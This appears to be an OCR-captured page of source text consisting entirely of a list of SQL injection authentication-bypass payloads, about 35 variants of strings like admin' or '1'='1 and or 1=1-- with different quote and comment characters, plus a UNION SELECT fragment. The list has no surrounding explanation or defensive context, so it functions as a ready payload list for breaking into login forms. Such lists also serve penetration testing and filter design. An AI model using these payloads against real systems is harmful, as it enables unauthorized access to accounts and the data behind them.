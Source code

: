 admin' or '1'='1
 
or 1=1
 
or 1=1--
 
or 1=1#
 
or 1=1/*
 
admin' --
 
admin' #
 
admin'/*
 
admin' or '1'='1
 
admin' or '1'='1'--
 
admin' or '1'='1'#
 
admin' or '1'='1'/*
 
admin'or 1=1 or ''='
 
admin' or 1=1
 
admin' or 1=1--
 
admin' or 1=1#
 
admin' or 1=1/*
 
admin') or ('1'='1
 
admin') or ('1'='1'--
 
admin') or ('1'='1'#
 
admin') or ('1'='1'/*
 
admin') or '1'='1
 
admin') or '1'='1'--
 
admin') or '1'='1'#
 
admin') or '1'='1'/*
 
1234 ' AND 1=0 UNION ALL SELECT 'admin',
 
admin" --
 
admin" #
 
admin"/*
 
admin" or "1"="1
 
admin" or "1"="1"--
 
admin" or "1"="1"#
 
admin" or "1"="1"/*
 